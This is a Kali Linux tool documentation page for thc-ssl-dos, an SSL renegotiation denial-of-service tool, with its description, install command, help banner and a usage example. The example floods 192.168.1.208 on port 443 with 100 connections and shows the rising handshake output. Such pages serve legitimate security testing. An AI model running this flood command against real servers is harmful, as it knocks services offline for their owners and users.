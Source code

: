 ```yaml
---
Title: thc-ssl-dos
Homepage: http://www.thc.org/thc-ssl-dos/
Repository: https://gitlab.com/kalilinux/packages/thc-ssl-dos
Architectures: any
Version: 1.4-1kali4
Metapackages: kali-linux-everything kali-linux-large kali-tools-vulnerability kali-tools-web 
Icon: /images/kali-tools-icon-missing.svg
PackagesInfo: |
 ### thc-ssl-dos
 
  THC-SSL-DOS is a tool to verify the performance of SSL.
   
  Establishing a secure SSL connection requires 15x more processing
  power on the server than on the client.
   
  THC-SSL-DOS exploits this asymmetric property by overloading the
  server and knocking it off the Internet.
   
  This problem affects all SSL implementations today. The vendors are aware
  of this problem since 2003 and the topic has been widely discussed.
   
  This attack further exploits the SSL secure Renegotiation feature
  to trigger thousands of renegotiations via single TCP connection.
 
 **Installed size:** `35 KB`  
 **How to install:** `sudo apt install thc-ssl-dos`  
 
 {{< spoiler "Dependencies:" >}}
 * libc6 
 * libpcap0.8
 * libssl3 
 * openssl
 {{< /spoiler >}}
 
 ##### thc-ssl-dos
 
 
 ```
 root@kali:~# thc-ssl-dos -h
      ______________ ___  _________
      \__    ___/   |   \ \_   ___ \
        |    | /    ~    \/    \  \/
        |    | \    Y    /\     \____
        |____|  \___|_  /  \______  /
                      \/          \/
             http://www.thc.org
 
           Twitter @hackerschoice
 
 Greetingz: the french underground
 
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## thc-ssl-dos Usage Example

Using 100 connections (`-l 100`), flood the target IP (`192.168.1.208`) and port (`443`):

```
root@kali:~# thc-ssl-dos -l 100 192.168.1.208 443 --accept
     ______________ ___  _________
     \__    ___/   |   \ \_   ___ \
       |    | /    ~    \/    \  \/
       |    | \    Y    /\     \____
       |____|  \___|_  /  \______  /
                     \/          \/
            http://www.thc.org

          Twitter @hackerschoice

Greetingz: the french underground

Waiting for script kiddies to piss off................
The force is with those who read the source...
Handshakes 0 [0.00 h/s], 1 Conn, 0 Err
Handshakes 2 [2.90 h/s], 6 Conn, 0 Err
Handshakes 25 [22.42 h/s], 13 Conn, 0 Err
Handshakes 70 [43.97 h/s], 20 Conn, 0 Err
Handshakes 125 [56.51 h/s], 27 Conn, 0 Err
Handshakes 185 [62.09 h/s], 33 Conn, 0 Err
Handshakes 262 [74.56 h/s], 41 Conn, 0 Err
Handshakes 365 [104.93 h/s], 47 Conn, 0 Err
Handshakes 496 [131.23 h/s], 54 Conn, 0 Err
```

